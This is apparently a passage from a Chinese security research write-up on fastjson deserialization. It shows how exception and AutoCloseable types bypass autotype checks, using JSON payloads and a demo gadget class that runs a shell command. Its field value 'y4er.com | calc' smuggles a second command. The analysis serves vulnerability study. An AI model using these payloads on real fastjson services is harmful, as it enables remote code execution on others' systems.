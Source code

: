 ```java
{
  "@type":"java.lang.Exception",
  "@type": "org.chabug.fastjson.exploit.ExecException",
  "domain": "y4er.com | calc"
}
```

当然很少有开发者把命令执行写道异常类处理中，所以Throwable鸡肋。

再来看JavaBeanDeserializer，在fastjson中对大部分类都指定了特定的deserializer，而AutoCloseable类没有，通过继承/实现AutoCloseable的类可以绕过autotype反序列化。场景如下：

```java
package org.chabug.fastjson.exploit;

import java.io.Closeable;
import java.io.IOException;

public class ExecCloseable implements Closeable {
    private String domain;

    public ExecCloseable() {
    }

    public ExecCloseable(String domain) {
        this.domain = domain;
    }

    public String getDomain() {
        try {
            Runtime.getRuntime().exec(new String[]{"cmd", "/c", "ping " + domain});
        } catch (IOException e) {
            e.printStackTrace();
        }
        return domain;
    }

    public void setDomain(String domain) {
        this.domain = domain;
    }

    @Override
    public void close() throws IOException {

    }
}
```
提交json触发rce

```java
{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecCloseable",
  "domain": "y4er.com | calc"
}
```
